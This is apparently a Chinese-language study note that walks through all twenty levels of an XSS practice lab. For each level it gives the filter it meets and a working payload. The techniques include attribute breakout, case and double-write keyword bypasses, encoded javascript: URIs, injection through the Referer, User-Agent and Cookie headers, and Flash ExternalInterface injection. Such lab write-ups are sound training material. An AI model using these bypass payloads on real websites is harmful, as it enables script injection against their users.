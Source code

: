 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。</br>
```java
payload：src="javascript:alert(666)"
```

## level15
与上一关相似，修改响应包数据：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(12).png height="300" width="650"></br>
```
payload："><script>alert(1)</script><"
```

## level16
经测试，script和/均被过滤，空格符号也无法使用，但是on事件可以使用。使用img标签，将空格用url编码%0a、%0b、%0d替换，测试成功。</br>
```
payload：?keyword=<img%0dsrc=a%0donerror=alert(1)>
```

## level17
从上一关跳转到本关，URL中有两个参数?arg01=a&arg02=b；右键查看源码，是embed标签，它支持on事件，可以在参数b后面空格注入on事件构造payload。
```
payload：?arg01=a&arg02=b%20onmousedown=alert(1)
```
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(13).png></br>

## level 18
与上一关相似。这两关也都可以在第一个参数后加空格来绕过。</br>
```
payload1：?arg01=a&arg02=b%20onmouseup=alert(1)
payload2：?arg01=%20onmouseup&arg02=alert(1)
```

## level19
与上面一关解题思路一样，但是输入内容被加了双引号，使用双引号闭合却发现双引号被转义：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(14).png></br>
到了这一关卡，使用Google Chrome和FireFox浏览器已经不能满足题目环境要求了，因为这最后两关卡涉及Flash XSS，需要浏览器支持Flash文件。我们下载QQ浏览器并安装Flash再来看题目，并且学习Flash XSS的知识：https://www.secpulse.com/archives/44299.html。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(15).png></br>
看本关的页面看不出来任何东西，重点还是需要看xsf03.swf这个文件本身，专门下载一个编辑Flash文件.swf的软件JPEXSFreeFlashDecompiler来查看代码：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(16).png></br>
xsf03.swf文件打开后里面有一系列文件，我们重点看脚本中的sIFR.js文件，几个关键变量复制出来：</br>
```
static var DEFAULT_TEXT = "Rendered with sIFR 3, revision 436<br><strong>Rendered with sIFR 3, revision 436</strong><br><em>Rendered with sIFR 3, revision 436</em><br><strong><em>Rendered with sIFR 3, revision 436</em></strong>";
static var VERSION_WARNING = "Movie (436) is incompatible with sifr.js (%s). Use movie of %s.<br><strong>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</strong><br><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em><br><strong><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em></strong>";
static var VERSION = "436";
```
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(17).png></br>
继续看上图中的逻辑代码，大致意思是入参version如果等于436，页面显示DEFAULT_TEXT内容；如果入参version不等于436，则页面显示VERSION_WARNING内容，注意VERSION_WARNING内容包含一个未过滤的version入参。</br>
再回到本关内容，根据前两关思路，继续利用arg01和arg02两个参数构造测试：</br>
```
?arg01=version&arg02=436
```
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(18).png></br>
```
?arg01=version&arg02=888
```
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(19).png></br>
```
最终构造出payload：?arg01=version&arg02=<a href="javascript:alert(1)">888</a>
```
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(20).png></br>

## level20
借鉴博客：https://blog.csdn.net/u014029795/article/details/103217680</br>
先使用软件JPEXSFreeFlashDecompiler把xsf04.swf中的关键代码拿出来：</br>
```
package
{
   import flash.display.LoaderInfo;
   import flash.display.Sprite;
   import flash.display.StageScaleMode;
   import flash.events.Event;
   import flash.events.MouseEvent;
   import flash.external.ExternalInterface;
   import flash.system.Security;
   import flash.system.System;
   
   public class ZeroClipboard extends Sprite
   {  
      private var button:Sprite;
      
      private var id:String = "";
      
      private var clipText:String = "";
      
      public function ZeroClipboard()
      {
         super();
         stage.scaleMode = StageScaleMode.EXACT_FIT;
         Security.allowDomain("*");
         var flashvars:Object = LoaderInfo(this.root.loaderInfo).parameters;
         id = flashvars.id;
         button = new Sprite();
         button.buttonMode = true;
         button.useHandCursor = true;
         button.graphics.beginFill(13434624);
         button.graphics.drawRect(0,0,Math.floor(flashvars.width),Math.floor(flashvars.height));
         button.alpha = 0;
         addChild(button);
         button.addEventListener(MouseEvent.CLICK,clickHandler);
         button.addEventListener(MouseEvent.MOUSE_OVER,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOver",null);
         });
         button.addEventListener(MouseEvent.MOUSE_OUT,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOut",null);
         });
         button.addEventListener(MouseEvent.MOUSE_DOWN,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseDown",null);
         });
         button.addEventListener(MouseEvent.MOUSE_UP,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseUp",null);
         });
         ExternalInterface.addCallback("setHandCursor",setHandCursor);
         ExternalInterface.addCallback("setText",setText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"load",null);
      }
      
      public function setHandCursor(param1:Boolean) : *
      {
         button.useHandCursor = param1;
      }
      
      private function clickHandler(param1:Event) : void
      {
         System.setClipboard(clipText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"complete",clipText);
      }
      
      public function setText(param1:*) : *
      {
         clipText = param1;
      }
   }
}
```
上一关是Flash getURL XSS，而这一关Flash ExternalInterface.call XSS！</br>
首先通过LoaderInfo从URL中取值id，再取两个值width和height：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(21).png></br>
接下来构造payload。</br>
```
payload：?arg01=id&arg02=xss%5c"))}catch(e){alert(1)}//%26width=123%26height=123
```
第一个参数arg01=id不解释了，重点看第二个参数arg02。</br>
（1）关于%5c、%26，测试中发现不能直接使用转义符\和&符号。</br>
（2）ExternalInterface.call(a,b)相当于JS中的函数名(代码)，函数名已经固定了，所以我们就从id这里着手，把id的值代进去。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(22).png></br>
```
private function clickHandler(param1:Event) : void
      {
         ExternalInterface.call("ZeroClipboard.dispatch","xss\"))}catch(e){
         	alert(1)
         	}
         //","complete",clipText);
      }
```
你会发现这样一来，由于前面少了一个真正可以闭合的"于是会报错，所以后面抛出异常的catch就可以生效了，于是执行后面的alert(1)。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(23).png></br>
